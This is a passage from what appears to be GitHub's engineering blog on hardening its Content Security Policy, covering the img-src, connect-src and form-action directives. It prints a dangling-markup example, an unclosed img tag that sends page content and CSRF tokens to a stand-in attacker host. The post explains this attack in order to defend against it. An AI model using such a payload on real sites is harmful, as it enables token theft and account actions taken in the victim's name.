Note: The file that that was fetched in the above bounty submission was returned with a `content-type` of `image/png`. Unfortunately, Flash has a bad habit of desperately wanting to execute things and will gleefully execute if the response vaguely looks and quacks like a Flash file :rage 😡" src="https://github.githubassets.com/images/icons/emoji/unicode/1f621.png" alt="😡" width="20" height="20" loading="lazy"\>.

#### `img-src`[](https://github.blog/engineering/platform-security/githubs-csp-journey/#img-src)

Unlike the directives we have talked about so far, `img-src` doesn’t often come to mind when talking about security. By restricting where we source images, we limit one avenue of sensitive data exfiltration. For example, what if an attacker were able to inject an `img` tag like this?

```
<img src='http://some_evil_site.com/log_csrf?html=
```

A tag with an unclosed quote will capture all output up to the next matching quote. This could include security sensitive content on the pages such as:

```
<form action="https://github.com/account/public_keys/19023812091023">
...
<input type="hidden" name="csrf_token" value="some_csrf_token_value">
</form>
```

The resulting image element will send a request to `http://some_evilsite.com/log_csrf?html=...some_csrf_token_value...`. An attacker can leverage this “dangling markup” attack to exfiltrate CSRF tokens to a site of their choosing. There are a number of types of dangling markup which could lead to the similar exfiltration of sensitive information, but CSP’s restrictions helps to reduce the tags and attributes that can be targeted.

#### `connect-src`[](https://github.blog/engineering/platform-security/githubs-csp-journey/#connect-src)

As was noted above, GitHub has JavaScript that performs DOM modification by automatically fetching a URL from tags with a specific CSS class. We never intended to insert content sourced from anywhere besides GitHub.com, but until we added support for the `connect-src` directive, nothing was restricting the origin of the rendered response. Our current policy dramatically reduces the attack surface by limiting JavaScript connections to a small set of domains. We have recently further locked down our `connect-src` policy by adding support for dynamic policy additions. Historically, it has been relatively tedious to make dynamic changes to our policy per endpoint (i.e. we didn’t do it). But, with some [recent development](https://github.com/twitter/secureheaders/pull/191) by [@oreoshake](https://github.com/oreoshake) to the [Secure Headers library](https://github.com/twitter/secureheaders), it is now much easier for us going forward. For example, connections to `api.braintreegateway.com` only occur on payment related pages. We can now enforce a unique exception to our policy, appending the third-party host only on pages that need to connect to the payment endpoint. Over time we hope to lock down other unique connection endpoints using dynamic CSP policies.

#### `form-action`[](https://github.blog/engineering/platform-security/githubs-csp-journey/#form-action)

By limiting where forms can be submitted we help mitigate the risk associated with injected `form` tags. Unlike the “dangling markup” attack described above for image tags, forms are even more nuanced. Imagine an attacker is able to inject the following into a page:
